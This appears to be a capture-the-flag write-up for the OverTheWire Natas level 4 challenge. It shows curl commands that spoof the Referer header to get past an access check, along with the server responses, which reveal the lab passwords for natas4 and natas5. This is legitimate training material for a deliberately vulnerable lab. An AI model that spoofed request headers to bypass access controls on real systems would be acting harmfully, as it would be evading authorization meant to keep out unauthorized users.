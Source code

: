 ***Access disallowed. You are visiting from "" while authorized users should come only from "http://natas5.natas.labs.overthewire.org/"***

When I hit the "refresh page" link below this, the message changes to:

***Access disallowed. You are visiting from "http://natas4.natas.labs.overthewire.org/index.php" while authorized users should come only from "http://natas5.natas.labs.overthewire.org/"***

The refresh link on the page takes me to index.php on this subdomain, and is subsequently a clue: the web app is keeping track of what URL is being used to access the page. If we can spoof the URL that is being used to access the page, then we can trick it to think we're on the natas5 subdomain. 

This can be accomplished by modifying the Referer request header. Using the browser inspector, we can see in the request headers that the Referer is currently set to `http://natas4.natas.labs.overthewire.org/`, when we need this changed to the natas5 subdomain address. To make the swap, we can either use a tool/extension, or we can use a `curl` call on a CLI. To test the normal response from a `curl` call:

**`raj@arch:~$ curl -u natas4:tKOcJIbzM4lTs8hbCmzn5Zr4434fGZQm natas4.natas.labs.overthewire.org`**  
```
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas4", "pass": "tKOcJIbzM4lTs8hbCmzn5Zr4434fGZQm" };</script></head>
<body>
<h1>natas4</h1>
<div id="content">

Access disallowed. You are visiting from "" while authorized users should come only from "http://natas5.natas.labs.overthewire.org/"
<br/>
<div id="viewsource"><a href="index.php">Refresh page</a></div>
</div>
</body>
</html>
```

This gives us the HTML source of the page. Now let's modify our curl call to spoof the Referer request header:

**`raj@arch:~$ curl -u natas4:tKOcJIbzM4lTs8hbCmzn5Zr4434fGZQm --referer "http://natas5.natas.labs.overthewire.org/" natas4.natas.labs.overthewire.org`**  
```
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas4", "pass": "tKOcJIbzM4lTs8hbCmzn5Zr4434fGZQm" };</script></head>
<body>
<h1>natas4</h1>
<div id="content">

Access granted. The password for natas5 is Z0NsrtIkJoKALBCLi5eqFfcRN82Au2oD
<br/>
<div id="viewsource"><a href="index.php">Refresh page</a></div>
</div>
</body>
</html>
```
